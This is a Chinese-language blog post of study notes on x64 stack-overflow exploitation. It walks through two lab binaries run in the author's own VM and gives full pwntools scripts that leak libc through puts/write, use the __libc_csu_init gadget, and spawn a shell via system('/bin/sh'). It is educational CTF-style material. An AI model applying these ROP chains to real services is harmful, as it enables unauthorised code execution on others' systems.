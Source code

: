 ```yaml
---
title: "栈溢出学习笔记"
date: 2018-11-16T15:57:09+08:00
tags: ["pwn", "exploit", "stackoverflow"]
---
```


有一段时间没写博客了，下午跟着巨佬学了点简单的栈溢出，拿其中两个例子做下笔记 ( x64

在虚拟机里用socat把程序挂起来 `socat tcp-l:8233,fork exec:./challenge`

查找偏移的网址：https://libc.blukat.me/

也可以使用跃哥的 https://github.com/lieanu/LibcSearcher ( 用着有点卡 Orz

## 0x01

第一个例子，漏洞点当然也很明显

```c
int vulfunc()
{
  char v1; // [rsp+0h] [rbp-10h]

  puts("data:");
  gets(&v1);
  return printf("data:%s\n", &v1);
}
```

在 `gets` 这个地方存在溢出，但是程序中没有 `/bin/sh` 字符串，也没有 `system` , `execve` 等函数供我们使用，当然程序也开了NX

![](/img/pwn-stackoverflow-study/20181121212534.png)

程序中供使用的函数主要有两个 `puts` 与 `gets` ，这里可以使用 `puts` 来泄露出 libc 中 `system` 与 `/bin/sh` 字符串的地址

因为是x64的程序，所以程序传参稍微有点不一样，因为puts仅需要一个参数，所以程序中可以很快找到一个可供使用的gadgets

![](/img/pwn-stackoverflow-study/20181121212525.png)

首先使用puts来泄露出一个地址供查找，这里选择了泄露gets的地址

```python
from pwn import *

io = remote('10.211.55.33', 8233)
elf = ELF('./rop4')

context.log_level = 'DEBUG'

puts_plt = p64(elf.plt['puts'])
gets_got = p64(elf.got['gets'])
pop_rdi_addr = p64(0x400773)
vuln_func_addr = p64(0x400676)

payload = 'A' * 0x10 + pop_rdi_addr*2 + gets_got + puts_plt + vuln_func_addr
io.sendlineafter('data:', payload)
gets_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\0'))
print hex(gets_addr)
```

![](/img/pwn-stackoverflow-study/20181121212514.png)

然后使用 `0x7f5c60278d80` 这个地址去上面的网站查找一下

![](/img/pwn-stackoverflow-study/20181121212503.png)

这样就得到了 `system` 函数与 `/bin/sh` 字符串的偏移，那么就可以得到他得地址了，因为 `system` 函数也只接收一个参数，所以仍然可以继续使用 `pop rdi;ret` ，完整的exp为

```python
from pwn import *

io = remote('10.211.55.33', 8233)
elf = ELF('./rop4')

context.log_level = 'DEBUG'

puts_plt = p64(elf.plt['puts'])
gets_got = p64(elf.got['gets'])
pop_rdi_addr = p64(0x400773)
vuln_func_addr = p64(0x400676)

payload = 'A' * 0x10 + pop_rdi_addr*2 + gets_got + puts_plt + vuln_func_addr
io.sendlineafter('data:', payload)
gets_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\0'))
print hex(gets_addr)
libc_base = gets_addr - 0x06ed80
bin_sh = p64(libc_base + 0x18cd57)
system = p64(libc_base + 0x045390)
payload = 'A' * 0x10 + pop_rdi_addr*2 + bin_sh + system*2
io.sendafter('data:' , payload)
io.interactive()
```



## 0x02

这个题和上个题基本上没区别，唯一不同的地方就是 `gets` 和 `puts` 换成了 `read` 和 `write` 

`main`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  write(1, "Hello, World\n", 0xDuLL);
  vulfunc();
  return 1;
}
```

`vulfunc`

```c
ssize_t vulfunc()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

使用 `man 2 write` 可以发现它接收三个参数

```
SYNOPSIS
     #include <unistd.h>

     ssize_t
     pwrite(int fildes, const void *buf, size_t nbyte, off_t offset);

     ssize_t
     write(int fildes, const void *buf, size_t nbyte);

     #include <sys/uio.h>

     ssize_t
     writev(int fildes, const struct iovec *iov, int iovcnt);
```

这里的思路与上一个题一样，使用write来泄露地址，但是这里明显没有那么好用的gadgets了

![](/img/pwn-stackoverflow-study/20181121212406.png)

但是在程序中存在比较通用的组件，一般程序中都会存在的 `__libc_csu_init` 

```
text:0000000000400700
.text:0000000000400700 loc_400700:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400700                 mov     rdx, r13
.text:0000000000400703                 mov     rsi, r14
.text:0000000000400706                 mov     edi, r15d
.text:0000000000400709                 call    qword ptr [r12+rbx*8]
.text:000000000040070D                 add     rbx, 1
.text:0000000000400711                 cmp     rbx, rbp
.text:0000000000400714                 jnz     short loc_400700
.text:0000000000400716
.text:0000000000400716 loc_400716:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400716                 add     rsp, 8
.text:000000000040071A                 pop     rbx
.text:000000000040071B                 pop     rbp
.text:000000000040071C                 pop     r12
.text:000000000040071E                 pop     r13
.text:0000000000400720                 pop     r14
.text:0000000000400722                 pop     r15
.text:0000000000400724                 retn
.text:0000000000400724 ; } // starts at 4006C0
.text:0000000000400724 __libc_csu_init endp
```

这里可以发现，从 000000000040071A 这个地址到 0000000000400722，可以一直控制 rbx, rbp, r12, r13, r14, r15 的值

然后在 0000000000400700 中，先将 r13 赋值给了 rdx，然后将 r14 赋值给了 rsi，再将 r15 赋值给了 edi ，虽然这里是edi，但是高位一般都是0，所以相当于这里完全控制了 rdi, rsi, rdx 三个寄存器的值，而 x64 的传参顺序则是前六个参数依次保存在 RDI，RSI，RDX，RCX，R8和 R9中，还有更多的参数才会保存在栈上

往下走会发现 call 了 [r12+rbx*8]，然后给rbx+1，再判断rbx与rbp是否相等，不相等就跳回去循环，那么这里可以构造 rbx=0，rbp=1，r12=想要执行的函数地址，r15为第一个参数，r14为第二个参数，r13为第三个参数，然后继续往下会将rsp+8，然后又pop了6次，也就是 7 * 8 = 56 的长度，那么就可以开始构造rop链了

```python
from pwn import *

io = remote('10.211.55.33', 8333)
elf = ELF('./rop5')

def rop(func, arg1, arg2, arg3):
    payload = ""
    payload += 'A' * (0x80 + 8)
    payload += p64(0x40071A)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func)
    payload += p64(arg3)
    payload += p64(arg2)
    payload += p64(arg1)
    payload += p64(0x400700)
    payload += 'A' * 56
    return payload

io.sendlineafter('Hello, World', rop(elf.got['write'], 0x1, elf.got['write'] ,0x8)+p64(0x400626))
write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = write_addr - 0x0f72b0
system_addr = libc_base + 0x45390
bin_sh_addr = libc_base + 0x18cd57
pop_rdi_addr = p64(0x400723)
io.sendline('A'*(0x80+8)+pop_rdi_addr+p64(bin_sh_addr)+p64(system_addr))
io.interactive()
```